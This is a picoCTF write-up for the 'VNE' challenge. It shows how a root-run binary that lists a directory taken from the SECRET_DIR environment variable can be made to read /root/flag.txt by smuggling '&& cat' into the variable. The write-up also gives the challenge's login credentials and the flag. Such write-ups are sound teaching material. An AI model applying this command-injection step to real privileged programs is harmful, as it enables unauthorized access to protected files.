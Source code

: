 # Writeup: VNE

## Overview

This challenge involves understanding of Linux operator and environment variables to reveal the flag.

## Info

1. **Challenge Description**

```text
We've got a binary that can list directories as root, try it out !! 
ssh to saturn.picoctf.net:50136, and run the binary named "bin" once connected. 
Login as ctf-player with the password, 3f39b042
```

2. Hint
  - Have you checked the content of the /root folder
  - Find a way to add more instructions to the ls

## Exploitation steps
1. Connect to the server as `ctf-player`.

```terminal
$ ssh -p 50136 ctf-player@saturn.picoctf.net
```

2. Check files in the current directory.

```terminal
ctf-player@pico-chall$ ls
bin
```

3. Run `bin` as in the challenge description said.

```terminal
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```

  - `bin` requires the `SECRET_DIR` environment variable to be set.

4. Set the environment variable `SECRET_DIR` to `/root` and run `bin` again.

```terminal
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```

  - Seems like the `bin` running `ls $SECRET_DIR`

5. Add the instruction using `&&` operator to output the flag.

```terminal
ctf-player@pico-chall$ export SECRET_DIR='/root && cat /root/flag.txt'
ctf-player@pico-chall$ ./bin
Listing the content of /root && cat /root/flag.txt as root: 
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}
```

##  Conclusion
By setting up `SECRET_DIR` environment variable and adding additional commands, we can reveal the flag.
